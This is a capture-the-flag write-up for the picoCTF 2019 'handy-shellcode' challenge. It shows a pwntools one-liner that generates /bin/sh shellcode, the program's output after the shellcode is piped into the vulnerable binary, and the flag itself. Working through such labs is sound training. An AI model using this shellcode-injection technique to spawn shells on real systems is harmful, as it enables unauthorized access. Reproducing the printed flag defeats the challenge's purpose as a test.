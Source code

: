 # handy-shellcode
**Points:** 50

## Category
Binary Exploitation

## Task
This [program](https://2019shell1.picoctf.com/static/884e03d84d1888395564a0f871bb2c69/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_0_24753fd2c78ac1a60682f0c924b23405 on the shell server. [Source](https://2019shell1.picoctf.com/static/884e03d84d1888395564a0f871bb2c69/vuln.c).

# Solution
Upon looking at the source code, it could be seen it the code is executing anything we enter as the input. We can simply get a proper [shellcode](http://shell-storm.org/shellcode/) and insert it as the input. Or even better, let python do all the work!
```bash
$ (python -c "import pwn; print(pwn.asm(pwn.shellcraft.sh()))"; cat) | ./vuln 
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
ls
flag.txt  vuln	vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_ce07e7f1}
```
We make use of the **pwntools** library of python to generate a shellcode to execute a terminal for us and _cat_ command is used to keep it open.

# Flag
> picoCTF{h4ndY_d4ndY_sh311c0d3_ce07e7f1}
